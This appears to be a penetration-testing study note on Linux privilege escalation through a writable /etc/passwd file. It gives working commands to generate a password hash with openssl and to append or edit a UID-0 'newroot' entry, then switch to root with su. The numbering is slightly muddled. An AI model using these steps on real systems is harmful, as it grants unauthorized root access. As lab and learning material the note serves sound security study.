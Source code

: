 The /etc/passwd historically contained user password hashes.

For backwards compatibility, if the second field of a user row in /etc/passwd contains a password hash, it takes precedent over the hash in /etc /shadow.

If we can write to /etc/passwd, we can easily enter a known password hash for the root user, and then use the su command to switch to the root user.

Alternatively, if we can only append to the file, we can create a new user but assign them the root user ID (0). This works because Linux allows multiple entries for the same user ID, as long as the usernames are different.

The root account in /etc/passwd is usually configured like this:

`root:x:0:0:root:/root:/bin/bash`

The “x” in the second field instructs Linux to look for the password hash in the /etc/shadow file.

In some versions of Linux, it is possible to simply delete the “x”, which Linux interprets as the user having no password:

`root::0:0:root:/root:/bin/bash`

```bash - target
./lse.sh -l 1 -i | more
```

![[Pasted image 20211230133209.png]]

1. Check the permissions of the /etc/passwd file:

```bash - target
ls -l /etc/passwd
```

`-rw-r--rw- 1 root root 951 May 13 2017 /etc/passwd`

Note that it is world writable.

```bash - target
echo "newroot:$(openssl passwd password):0:0:root:/root:/bin/bash" >> /etc/passwd
```

or 

2. Generate a password hash for the password “password”

using openssl :

```bash - kali
openssl passwd "password"
```

`L9yLGxncbOROc`

3. Edit the /etc/passwd file and enter the hash in the second field of the root user row:
4. 
> newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash

4. Use the su command to switch to the root user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```bash
echo "newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash" >> /etc/passwd
```

6. Use the su command to switch to the newroot user:

```bash - target
su newroot
```

```bash - target
password
```

```bash - target
id
```

> uid=0(root) gid=0(root) groups=0(root)























